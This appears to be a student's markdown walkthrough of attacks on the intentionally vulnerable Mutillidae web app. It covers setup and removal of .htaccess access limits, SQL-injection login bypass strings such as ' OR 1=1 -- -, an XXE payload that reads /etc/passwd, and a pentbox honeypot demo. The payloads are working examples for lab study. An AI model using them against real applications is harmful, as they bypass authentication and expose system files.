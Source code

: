 
**Markdown:**

```markdown
# Heading 1  
## Heading 2  
### Heading 3
```


### task1: make sure xammp is running
```
sudo /opt/lampp/lampp start  --> 
sudo systemctl stop apache2
```
http://127.0.0.1/mutillidae/src/index.php

http://208.8.8.133/mutillidae/src/index.php

if you want mutillidae to be accessed via web:
sudo nano /opt/lampp/htdocs/mutillidae/.htaccess
```
Order Deny,Allow
Deny from all
Allow from 127.0.0.1
Allow from ::1
Allow from 192.168.0.0/16
Allow from 10.0.0.0/8
Allow from 172.16.0.0/12
Order Allow,Deny
Allow from all
```

sudo rm /opt/lampp/htdocs/mutillidae/.htaccess
sudo /opt/lampp/lampp restart

### task2: open the web: SQL INJECTION:
```

SQL Injection is a web security vulnerability that allows an attacker to interfere with the queries an application makes to its database.
By injecting malicious SQL code into input fields (like login forms or search boxes), attackers can:
Bypass authentication
View, modify, or delete data
Execute administrative operations
Extract sensitive information

```
![image](https://github.com/user-attachments/assets/b565d468-aa2d-4c6d-99b0-d78910e672fb)

create a user name: anne curtis with password C1sc0123

![image](https://github.com/user-attachments/assets/ac571ec9-1f25-4b07-954e-b5b8ce838b7f)

If a website runs this code:

```
SELECT * FROM users WHERE username = 'input' AND password = 'input';

```
An attacker could input:
```
' OR 1=1 -- -
' OR 1=1 -- -

' OR '1'='1
' OR '1'='1

```
![image](https://github.com/user-attachments/assets/829dc8d0-98c4-43cc-af92-634b35148679)

and type: ' OR 1=1 -- - or both user and password:

![image](https://github.com/user-attachments/assets/271fc5d4-0532-4362-bda0-ab200f342fc9)

### we get this:

![image](https://github.com/user-attachments/assets/8eef2ed0-ecff-4391-8b9f-39e1bf2dee29)

## TASK2:A4: XML External Entities (XXE)

Go to: OWASP 2017 → A4 - XML External Entities

![image](https://github.com/user-attachments/assets/0b7fcd66-3965-4403-9a9a-6642d8ef6f15)

Paste this payload:
```

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>

```
![image](https://github.com/user-attachments/assets/a1bfdd93-cfd8-4390-a101-8f1c7d8237e4)

You get contents of a password file:

![image](https://github.com/user-attachments/assets/61e65d11-0f36-4161-9a7f-a25849f302ba)

## TASK2:A4: Honey Pot demo:

```

cd /home/kali/pentbox-1.8
 ./pentbox.rb

```

![image](https://github.com/user-attachments/assets/6ad8f047-1b6f-46bc-a8e3-a7af507e5829)





## TASK2:A4: XML External Entities (XXE)
